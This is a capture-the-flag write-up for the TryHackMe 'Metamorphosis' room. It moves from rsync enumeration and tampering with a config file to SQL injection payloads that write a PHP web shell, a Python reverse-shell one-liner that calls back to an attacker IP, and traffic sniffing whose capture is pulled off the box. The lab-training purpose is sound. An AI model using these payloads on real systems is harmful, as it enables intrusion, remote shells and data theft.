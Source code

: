 # Metamorphosis

![image](https://user-images.githubusercontent.com/5285547/126398152-edb99e4d-972a-4849-bd58-a604b7a9fa07.png)

Room link: https://tryhackme.com/room/metamorphosis

## Box name

```
sudo nano /etc/hosts
10.10.10.10 incognito.thm
```


## Nmap 

```
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
873/tcp open  rsync       (protocol version 31)
```

## Rsync Enum, Port 873

rsync is a utility for efficiently transferring and synchronizing files between a computer and an external hard drive and across networked computers by comparing the modification timesand sizes of files.[3] It is commonly found on Unix-like operating systems. The rsync algorithm is a type of delta encoding, and is used for minimizing network usage. Zlib may be used for additional data compression,[3] and SSH or stunnel can be used for security.

```
nc -vn 10.10.177.2 873
(UNKNOWN) [10.10.177.2] 873 (rsync) open
@RSYNCD: 31.0        <--- You receive this banner with the version from the server
@RSYNCD: 31.0        <--- Then you send the same info
#list                <--- Then you ask the sever to list
Conf            All Confs <--- The server starts enumerating
@RSYNCD: EXIT         <--- Sever closes the connection
```

or

```
nmap -sV --script "rsync-list-modules" -p 873 10.10.177.2 

PORT    STATE SERVICE VERSION
873/tcp open  rsync   (protocol version 31)
| rsync-list-modules: 
|_  Conf                All Confs
```

List share's

```
rsync -av --list-only rsync://10.10.55.140/Conf 

receiving incremental file list
drwxrwxrwx          4,096 2021/04/10 21:03:08 .
-rw-r--r--          4,620 2021/04/09 21:01:22 access.conf
-rw-r--r--          1,341 2021/04/09 20:56:12 bluezone.ini
-rw-r--r--          2,969 2021/04/09 21:02:24 debconf.conf
-rw-r--r--            332 2021/04/09 21:01:38 ldap.conf
-rw-r--r--         94,404 2021/04/09 21:21:57 lvm.conf
-rw-r--r--          9,005 2021/04/09 20:58:40 mysql.ini
-rw-r--r--         70,207 2021/04/09 20:56:56 php.ini
-rw-r--r--            320 2021/04/09 21:03:16 ports.conf
-rw-r--r--            589 2021/04/09 21:01:07 resolv.conf
-rw-r--r--             29 2021/04/09 21:02:56 screen-cleanup.conf
-rw-r--r--          9,542 2021/04/09 21:00:59 smb.conf
-rw-rw-r--             72 2021/04/10 21:03:06 webapp.ini
```

Copy files

```
rsync -av  "rsync://10.10.55.140/Conf" . 

receiving incremental file list
./
access.conf
bluezone.ini
debconf.conf
ldap.conf
lvm.conf
mysql.ini
php.ini
ports.conf
resolv.conf
screen-cleanup.conf
smb.conf
webapp.ini

sent 255 bytes  received 194,360 bytes  389,230.00 bytes/sec
total size is 193,430  speedup is 0.99
```

Post files

```
rsync -av testfile.txt rsync://tom@10.10.55.140/Conf

sending incremental file list

sent 63 bytes  received 12 bytes  150.00 bytes/sec
total size is 7  speedup is 0.09
```

## User

In webapp.ini we can see a user and password for "tom".  
Change the "prod" to "dev" to bypass the 403 error.

![image](https://user-images.githubusercontent.com/5285547/126405026-04e2a3da-4ff9-4b78-914a-91ed43b0979d.png)

Then reuplaod the files

```
rsync -av ./ rsync://tom@10.10.55.140/Conf 
```

Now we can access the admin portal

![image](https://user-images.githubusercontent.com/5285547/126405143-f5546a02-32e0-4712-9aaf-a65b7d5f052c.png)

Playing with the application and testing a few things out.  
I found it vunerable to Sqli


payloads
```
tom" and 2=2 and ""="
tom" union select 1,2,3-- -
tom" UNION SELECT 1,"<?php echo shell_exec($_GET['cmd']);?>",2 INTO OUTFILE "/var/www/html/shell.php" -- '
```

*Extra info
![image](https://user-images.githubusercontent.com/5285547/126409027-7d78bfa0-1586-4489-b4e3-811ac3dc081f.png)  
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md#mysql-write-a-shell

### Webshell 

http://IP/admin/shell.php

![image](https://user-images.githubusercontent.com/5285547/126406971-d222658d-3caf-46d1-98aa-f81644412ab5.png)
![image](https://user-images.githubusercontent.com/5285547/126406986-7c4b4f69-2faa-48ea-a804-f8deb17ba55a.png)

Lets get a reverse shell back. 
Start a net cat listner

```
nc -lnvp 9999
```

```
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.8.153.120",9999));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")'
```
![image](https://user-images.githubusercontent.com/5285547/126407229-c24fc6c5-30d3-43ff-b245-d8f76db7e69d.png)

Upgrade your terminal

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
stty raw -echo;fg
reset
xterm

export TERM=xterm;export SHELL=bash
```

## Root

Running linpeas on the box didn't show much, apart from tcpdump was usable. 

![image](https://user-images.githubusercontent.com/5285547/126408059-0e4b8b9e-4342-49b4-8ca7-31bc86b2a069.png)

So I started to sniff the traffie to see what was going on

```
tcpdump -i eth0 -A > tcpdump.out
```

Then transfered it to my box after..making a coffee then I went and did a few things, then came back to  
go through the results. 

```
python3 -m http.server 8899
wget http://IP:8899/tcpdump.out
```

Using sublimetext I went over the results. 

*If you need or like sublimetext4 and don't have it
```
sudo apt-get update 
sudo apt-get install sublime-text -y
```





